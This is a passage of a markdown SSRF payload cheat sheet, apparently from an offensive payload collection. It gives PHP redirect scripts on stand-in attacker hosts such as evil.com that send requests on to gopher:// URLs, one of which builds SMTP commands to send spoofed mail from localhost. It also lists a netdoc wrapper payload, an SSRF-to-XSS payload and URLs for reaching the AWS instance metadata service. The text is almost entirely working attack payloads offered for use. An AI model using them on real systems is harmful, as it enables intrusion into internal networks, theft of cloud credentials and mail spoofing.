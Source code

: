 ```
Content of evil.com/redirect.php:
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>

Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```

### **Gopher SMTP - send a mail**

```
Content of evil.com/redirect.php:
<?php
        $commands = array(
                'HELO victim.com',
                'MAIL FROM: <admin@victim.com>',
                'RCPT To: <sxcurity@oou.us>',
                'DATA',
                'Subject: @sxcurity!',
                'Corben was here, woot woot!',
                '.'
        );

        $payload = implode('%0A', $commands);

        header('Location: gopher://0:25/_'.$payload);
?>
```

### Netdoc

Wrapper for Java when your payloads struggle with "\n" and "\r" characters.

```
ssrf.php?url=gopher://127.0.0.1:4242/DATA
```

### SSRF to XSS

```
Payload: http://brutelogic.com.br/poc.svg

https://website.mil/plugins/servlet/oauth/users/icon-uri?consumerUri=http://brutelogic.com.br/poc.svg
```

### SSRF URL for Cloud Instances

### [AWS](http://docs.aws.amazon.com/AWSEC2/latest/UserGuide/ec2-instance-metadata.html#instancedata-data-categories)

```
DNS record

http://instance-data
http://169.254.169.254
http://metadata.nicob.net/
http://169.254.169.254.xip.io/
http://1ynrnhl.xip.io/
http://www.owasp.org.1ynrnhl.xip.io/

HTTP redirect

Static:http://nicob.net/redir6a
```